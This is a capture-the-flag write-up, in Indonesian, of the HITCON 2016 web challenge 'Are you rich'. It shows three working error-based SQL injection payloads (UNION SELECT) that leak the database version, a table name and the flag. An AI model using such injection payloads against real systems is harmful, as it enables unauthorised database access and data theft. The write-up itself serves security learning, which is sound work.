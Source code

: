 ```yaml
---
layout: post
title: "Hitcon 2016 : Are you rich"
description: "Hitcon 2016 : Are you rich"
headline: 
modified: 2016-10-10
date: 2016-10-10
category: Web Exploitation
tags: [Hitcon 2016]
imagefeature: /images/php.jpg
mathjax: 
chart: 
comments: true
featured: true
---
```


### Problem :

Are you rich? Buy the flag!
http://52.197.184.164/are_you_rich/

ps. You should NOT pay anything for this challenge

Some error messages which is non-related to challenge have been removed


### Solution : 

Kita dapat web di mana kita bisa lakukan generate bitcion address dan membeli flag. 
Untuk membeli flag kita harus mempunyai 5 BTC dalah address tersebut (Seharusnya),
Dan jika kita menggunakan Address BTC(>=26 karakter) yang bukan di generate dari web tersebut
maka akan muncul error `This address not issued by us` dan ketika kita menambah kan kutip 
pada address BTC nya maka akan muncul `Error when searching in the issue log`.

Dari situ kita asumsikan bahwa address BTC yang sudah di generate itu di simpan ke database
dan kemudian di cari lagi ketika kita akan membeli flag. 

Ternyata memang SQL injection 

Input : `1uQfX9XbdGu2Qr26cB1PZP4Pp8xZaRMfz' UNION SELECT (select @@version) limit 1,2#`
Error : `Error!: Remote API server reject your invalid address '5.7.15-0ubuntu0.16.04.1'. If your address is valid, please PM @cebrusfs or other admin on IRC.`

Input : `1uQfX9XbdGu2Qr26cB1PZP4Pp8xZaRMfz' UNION SELECT (select table_name from information_schema.tables where table_schema != 'information_schema' limit 1) limit 1,2#`
Error : `Error!: Remote API server reject your invalid address 'flag1'. If your address is valid, please PM @cebrusfs or other admin on IRC.`

Input : `1uQfX9XbdGu2Qr26cB1PZP4Pp8xZaRMfz' UNION SELECT (select flag from flag1 limit 1) limit 1,2#`
Error : `Error!: Remote API server reject your invalid address 'hitcon{4r3_y0u_r1ch?ju57_buy_7h3_fl4g!!}'. If your address is valid, please PM @cebrusfs or other admin on IRC.`

Dan di dapatkan flag nya `hitcon{4r3_y0u_r1ch?ju57_buy_7h3_fl4g!!}` , sayangnya kita tidak temukan flag Are you rich 2 :(

